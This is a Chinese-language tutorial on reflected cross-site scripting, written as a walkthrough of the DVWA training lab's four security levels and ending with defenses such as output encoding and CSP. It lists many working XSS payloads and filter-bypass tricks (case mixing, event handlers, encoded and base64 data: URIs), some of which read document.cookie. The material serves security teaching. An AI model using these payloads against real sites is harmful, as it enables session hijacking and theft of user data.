




# XSS reflected

## 一、XSS简介

### 概述
跨站脚本（XSS）攻击属于一种注入攻击，攻击者会将恶意脚本注入到原本正常、可信的网站中。XSS攻击的原理是，攻击者利用Web应用程序，将恶意代码（通常以浏览器端脚本的形式）发送给其他终端用户。这类攻击得以成功实施的漏洞十分普遍，只要Web应用程序接收用户输入后，未经校验或编码处理就直接在生成的页面内容中输出，就可能出现此类漏洞。

攻击者可借助XSS向毫无防备的用户发送恶意脚本。终端用户的浏览器无法识别该脚本不可信，进而会执行这段脚本。由于浏览器认为脚本来自可信来源，恶意脚本便能获取浏览器中存储、并与该站点关联使用的任意Cookie、会话令牌或其他敏感信息。这类脚本甚至可以重写HTML页面的内容。有关不同类型XSS漏洞的详细说明，参见：[《跨站脚本类型》](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)。

### 描述
跨站脚本（XSS）攻击的发生需满足以下条件：

1. 数据通过不可信来源进入 Web 应用，最常见的来源是网页请求。
2. 该数据被包含在动态内容中，发送给网页用户，且未经过恶意内容校验。

发送至网页浏览器的恶意内容通常表现为一段 JavaScript 代码，但也可能包含 HTML、Flash 或其他任何浏览器可执行的代码类型。基于 XSS 的攻击种类几乎没有限制，常见行为包括：将用户的 Cookie 等私密数据或其他会话信息发送给攻击者，将受害者重定向至由攻击者控制的网页内容，或是以存在漏洞的网站为幌子，在用户设备上执行其他恶意操作。

### 分类

#### 反射型 XSS（又称非持久型或 I 型）

反射型 XSS 是指用户输入的内容会被 Web 应用立即返回，例如出现在错误提示、搜索结果或其他响应中，这些响应会将用户请求提交的部分或全部内容直接包含在内。该过程既未对数据进行安全处理以确保能在浏览器中安全渲染，也不会永久存储用户提交的数据。在某些场景下，用户提交的数据甚至可能从未离开浏览器（详见下文基于 DOM 的 XSS）。

#### 存储型 XSS（又称持久型或 II 型）

存储型 XSS 通常是指用户输入的内容被永久存储在目标服务器上，例如存入数据库、留言论坛、访客日志、评论区等。随后受害者访问该 Web 应用时，会获取到这些已存储的数据，而数据同样未经过安全处理，无法在浏览器中安全渲染。随着 HTML5 及其他浏览器技术的发展，攻击 payload 也可直接永久存储在受害者的浏览器中（如 HTML5 本地数据库），完全无需发送至服务器。

#### 基于 DOM 的 XSS（又称 0 型）

基于 DOM 的 XSS（部分文献中称为 “0 型 XSS”）是一种 XSS 攻击方式：攻击者通过修改受害者浏览器中被原生客户端脚本使用的DOM 环境，导致客户端代码以 “非预期” 的方式执行攻击 payload。也就是说，页面本身（即 HTTP 响应内容）并未发生改变，但由于 DOM 环境被恶意篡改，页面中的客户端代码执行逻辑出现异常。

### XSS 攻击的危害
无论 XSS 是存储型、反射型还是基于 DOM 的类型，造成的后果都是相同的，区别仅在于恶意载荷到达服务器的方式不同。不要误以为 “只读型” 或单纯展示型的网站就不会遭受严重的反射型 XSS 攻击。
XSS 会给终端用户带来一系列问题，危害程度从轻微骚扰到完全攻陷账号不等。最严重的 XSS 攻击会窃取用户的会话 Cookie，使攻击者能够劫持用户会话并接管账号。其他破坏性攻击还包括：泄露用户文件、安装木马程序、将用户重定向至其他页面或网站、篡改页面内容展示。

若存在 XSS 漏洞，攻击者可篡改新闻稿或公告内容，进而影响公司股价或降低消费者信任度；医药网站的 XSS 漏洞则可能被攻击者篡改用药剂量信息，导致用药过量。有关此类攻击的更多信息，可参阅内容欺骗（Content_Spoofing）相关文档。

### 如何判断自身是否存在漏洞

XSS 漏洞在 Web 应用中很难被发现和清除。查找漏洞的最佳方法是对代码进行安全审计，检查所有 HTTP 请求输入可能被拼接到 HTML 输出的位置。注意：多种不同的 HTML 标签都可被用于注入恶意 JavaScript 代码。
Nessus、Nikto 等工具可辅助扫描网站漏洞，但只能触及表面问题。如果网站某一部分存在漏洞，那么其他位置极大概率也存在同类问题。

### 如何进行防护

防范 XSS 的主要措施可参考 [OWASP XSS 防护速查手册](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)。
此外，在所有 Web 服务器上禁用 HTTP TRACE 方法至关重要。即使客户端禁用或不支持document.cookie，攻击者仍可通过 JavaScript 窃取 Cookie 数据。攻击原理为：攻击者在论坛发布恶意脚本，当其他用户点击链接时，会触发异步 HTTP TRACE 请求，从服务器获取用户 Cookie 信息并发送至攻击者控制的恶意服务器，进而实施会话劫持攻击。只需在所有 Web 服务器上移除对 HTTP TRACE 的支持，即可轻松防范此类攻击。

**此篇主要讲XSS reflected类型的漏洞，其他类型如stored、DOM-based等类型将在后续文章中讲解。**

----
## 二、DVWA中的XSS reflected

### DVWA中的XSS reflected Low级别

**源码**：
```php
<?php
//关闭浏览器内置XSS防护功能
header ("X-XSS-Protection: 0");

// Is there any input?
//①处，获取name参数的值输入
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    //②处，name参数的值直接参与到输出页面的构造
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

*prompt:Low level will not check the requested input, before including it to be used in the output text.*

**原理说明**：

- ①处，通过`$_GET`获取`name`参数的值，并将其赋值给`$name`变量。
- ②处，将`$name`变量的值直接用于前端代码的构造，会产生XSS漏洞。
所以直接输入`<script>alert(1)</script>`即可触发XSS漏洞。

**payload展示**：

1. 基于HTML标签的注入
    直接插入能够执行脚本的HTML标签，最经典的就是`<script>`标签：
    - **`<script>`标签**：直接插入`<script>alert('XSS')</script>`。
    - **``标签**：利用`onerror`或`onload`事件，例如``。
    - **`<svg>`标签**：`<svg onload=alert(1)>`。
    - **`<body>`标签**：`<body onload=alert(1)>`。
    - **`<iframe>`标签**：`<iframe src="javascript:alert(1)">` 或 `<iframe srcdoc="<script>alert(1)</script>">`。
    - **`<input>`标签**：`<input onfocus=alert(1) autofocus>`。
    - **`<details>`标签**：`<details open ontoggle=alert(1)>`。
    - **`<video>`/`<audio>`标签**：`<video src=x onerror=alert(1)>`。
2. 基于HTML属性注入(HTTP EVENT)
    利用HTML元素属性的值注入JavaScript代码，通常需要闭合已有属性并注入新属性或伪协议。
    - **JavaScript伪协议**：在支持URL的属性（如`href`、`src`、`action`）中插入`javascript:alert(1)`，例如`<a href="javascript:alert(1)">click</a>`。
    - **事件处理器**：任何HTML元素的事件属性（如`onmouseover`、`onclick`、`onerror`等）都可以直接赋值JavaScript代码。例如`<div onmouseover="alert(1)">hover</div>`。
    - **CSS表达式（旧版IE）**：在`style`属性中插入`expression(alert(1))`，例如`<div style="width:expression(alert(1))">`。
    - **`<iframe>`的`srcdoc`属性**：可以包含HTML代码，如`<iframe srcdoc="<script>alert(1)</script>">`。

3. 基于JavaScript伪协议的注入
    当用户输入被拼接到`<a>`、`<iframe>`、`<form>`等标签的URL属性中时，可以使用`javascript:`伪协议执行脚本。
    - 例如：`javascript:alert(1)`。

4. 基于编码绕过
    当后端或前端存在简单过滤时，攻击者使用编码来绕过检测，但最终被浏览器解码执行。
    - **HTML实体编码**：如`&lt;script&gt;alert(1)&lt;/script&gt;`，如果输出到HTML解析上下文，实体会被解码为标签（取决于位置）。
    - **URL编码**：如`%3Cscript%3Ealert(1)%3C/script%3E`，如果输出到`<a href>`等属性中，URL编码可能被浏览器解码。
    - **JavaScript Unicode转义**：在JavaScript字符串中使用`\u003c`等表示`<`，例如`eval("\u0061\u006c\u0065\u0072\u0074(1)")`。
    - **Base64编码**：结合`data:`协议，如`<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`。
    - **双重编码**：组合多种编码绕过过滤。

5. 基于JavaScript函数动态执行
    如果输入最终被传递到`eval()`、`setTimeout()`、`setInterval()`、`Function()`等执行代码的函数中，可以注入任意JavaScript。
    - 例如：`eval('alert(1)')`、`setTimeout('alert(1)')`。

6. 基于DOM操作的安全漏洞
    虽然本例是反射型XSS，但若前端存在将用户输入通过`innerHTML`、`document.write`等方式插入DOM的情况，同样可注入。这些在反射型中也适用。
    - 例如：用户输入被赋给`element.innerHTML`，则``也会触发。

7. 基于JSONP/Callback的注入
    如果输出点在JavaScript代码中的回调函数参数中，可以注入恶意代码闭合上下文。
    - 例如：`?callback=alert(1)`，输出为`callback({"data":"..."})`，则可能执行`alert(1)`。

8. 基于CSS的注入（已过时但可能）
    旧版IE支持`expression()`，可在CSS中执行JavaScript。
    - 例如：`<div style="xss:expression(alert(1))">`。

9. 基于HTTP头部注入
    如果用户输入被写入响应头（如`Location`、`Set-Cookie`），可能通过CRLF注入等方式插入恶意头或改变页面行为。但本例是输出到HTML体，不属于此类。

*读者可以自行尝试以上Payload，并观察是否触发XSS漏洞，经过笔者尝试，最有可能的就是利用标签和属性注入的方式*

**部分payload结果展示**：

- http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<script>alert(document.cookie)</script>

 

- http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<a href="javascript:alert(1)">click</a>

 

### DVWA中的XSS reflected Medium级别

**源码**：
```php
<?php
//关闭浏览器内置XSS防护功能
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    //①处，获取name参数的值输入，并使用''空字符代替'<script>'标签
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    //②处，name参数的值直接参与到输出页面的构造
    echo "<pre>Hello {$name}</pre>";
}

?>
```

*prompt:The developer has tried to add a simple pattern matching to remove any references to "<script>", to disable any JavaScript.*

**原理说明**：
- 代码首先关闭了浏览器自带的XSS防护功能
- ①处，使用str_replace函数将`$_GET`获取的`name`参数中的<script>标签替换为空字符，并赋值给`$name`变量。但是，由于str_replace函数是区分大小写的，<Sript>等标签就可轻松绕过，黑名单式过滤很容易绕过
- ②处，将`$name`变量的值直接用于前端代码的构造，会产生XSS漏洞。

**payload展示**：

同low类型，适当修改，绕过后端的<script>过滤，此处不再赘述。

- http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<Script>alert(document.cookie)</script>


- http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<a href="javascript:alert(document.cookie)">click</a>

 

 ### DVWA中的XSS reflected High级别

 **源码**：
 ```php
 <?php
//关闭浏览器XSS保护
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    //①处，使用preg_replace函数将$_GET获取的name参数中符合正则匹配的<...script...>标签都替换为空字符
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    //②处，name参数的值直接参与到输出页面的构造
    echo "<pre>Hello {$name}</pre>";
}
```
*prompt:The developer now believes they can disable all JavaScript by removing the pattern "<s\*c\*r\*i\*p\*t".Spoiler: HTML events.*


**原理说明**:

- 代码首先关闭了浏览器自带的XSS防护功能
- ①处，使用preg_replace函数将`$_GET`获取的`name`参数中符合正则匹配的<...script...>标签都替换为空字符，所以带有任意<script>标签的注入会被过滤(编码等也不行，已试过)，但是对HTML事件等属性仍然可以注入
- ②处，将`$name`变量的值直接用于前端代码的构造，会产生XSS漏洞。

 **payload展示**：

 *尝试构造HTML ENVENT*:

- http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=



- http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<input onfocus=alert(document.cookie) autofocus>




### DVWA中的XSS reflected Impossible级别


**源码**：
```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    //①处，检查用户提交的user_token和session_token是否一致，防止了CSRF攻击
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    //②处，使用htmlspecialchars函数对$_GET获取的name参数中的所有特殊字符进行转义，防止了HTML实体注入
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    //③处，name参数的值直接参与到输出页面的构造，但是已经是编码后的注入
    echo "<pre>Hello {$name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

**原理说明**：
- 代码首先通过检查用户提交的user_token和session_token是否一致，防止了CSRF攻击
- ②处，使用htmlspecialchars函数对`$_GET`获取的`name`参数中的所有特殊字符进行转义，特殊字符全部转化为编码
- 最后拼接转化为编码后的name参数到响应代码中
- **构造的响应并发送到客户端浏览器，由于是编码，浏览器最初不会执行非HTML代码的语句用于构造DOM等，所以无影响，随后对部分内容进行解码，到最后展现的还是用户的输入，但是这个过程中，浏览器在执行代码的时候，注入语句是处于编码状态的，所以不会被执行，从而避免了XSS reflected 漏洞**

## 三、总结

| 等级       | 核心防御机制                                                                 | 绕过方法                                                                                     | 关键启示                                                                                 |
| ---------- | ---------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------- |
| **Low**    | 无任何过滤，直接输出。                                                         | 直接使用 `<script>` 标签或任何 HTML 事件属性。                                                | 对用户输入完全信任是 XSS 产生的根本原因。                                                 |
| **Medium** | 黑名单过滤，仅删除小写 `<script>` 标签。                                         | 1. 大小写混合（如 `<Script>`）。<br>2. 使用其他标签或事件属性（如 ``）。             | 简单的黑名单极易被绕过，无法作为可靠防御。                                                 |
| **High**   | 正则表达式过滤，删除包含 `script` 序列的标签。                                   | 使用不含 `script` 的 HTML 事件属性（如 ``、`<body onload>`）。                      | 即使过滤规则看似复杂，也无法穷举所有攻击向量。黑名单思维存在根本缺陷。                     |
| **Impossible** | 1. 输出编码：`htmlspecialchars` 将特殊字符转为实体。<br>2. CSRF 防御：检查 Token 确保请求合法性。 | 无法绕过。任何恶意代码经编码后，在 HTML 输出中变为无害文本，浏览器不会执行。                     | 输出编码是防御 XSS 的黄金法则，配合 CSRF 令牌等机制，构成纵深防御。                         |

反射型 XSS（跨站脚本攻击）是最常见也最基础的 Web 安全漏洞之一。其核心原理可概括为：**攻击者构造包含恶意脚本的 URL，诱使用户点击，服务器未对用户输入做任何处理就直接将其拼接到响应页面中，浏览器执行了这段“意外”的脚本，导致用户敏感信息泄露或会话被劫持。**

### 常见防御手段（但往往不够）

- **输入过滤**：如 PHP 中的 `str_replace` 或 `preg_replace` 试图删除 `<script>` 标签。但这种黑名单方式极易被绕过（大小写、双写、嵌套标签、利用其他 HTML 属性等），**无法作为可靠防御**。
- **浏览器内置防护（XSS Auditor / XSS Filter）**：旧版浏览器有 XSS 防护机制，但已被证明存在缺陷，现代浏览器更推荐使用 **CSP（内容安全策略）** 作为第一道防线。
- **禁用 HTTP TRACE 方法**：可防止利用 TRACE 劫持 Cookie，但这只是辅助措施。

### 攻击者的常用思路

1. **利用 HTML 标签**：最直接的是 `<script>alert(1)</script>`，若被过滤则尝试 ``、`<svg onload=alert(1)>` 等事件触发型 payload。
2. **利用伪协议**：在 `<a href="javascript:alert(1)">` 或 `<iframe src="javascript:alert(1)">` 中注入代码。
3. **绕过过滤**：大小写混淆（`<Script>`）、双写（`<scr<script>ipt>`）、编码（URL 编码、HTML 实体编码、Base64 编码）等方式尝试逃逸过滤逻辑。

### 最终防御：输出编码 + CSP

**最根本的防御是输出编码**。在将用户输入插入到 HTML 页面之前，根据输出位置进行恰当的编码。例如 PHP 中的 `htmlspecialchars()` 函数会将 `<`、`>`、`"`、`'`、`&` 等特殊字符转换为 HTML 实体，使浏览器将其视为普通文本而非可执行代码。

同时，开启 **CSP（内容安全策略）** 可以限制页面只能加载指定来源的脚本，即使有注入也无法执行未知脚本。此外，保持后端框架的安全更新、使用模板引擎的自动转义功能、对 Cookie 设置 `HttpOnly` 属性（防止 JavaScript 读取）都是有效的纵深防御措施。

**牢记：永远不要信任用户的任何输入，在输出时做安全处理才是防御 XSS 的黄金法则。** 通过以上组合策略，可以有效抵御绝大多数反射型 XSS 攻击。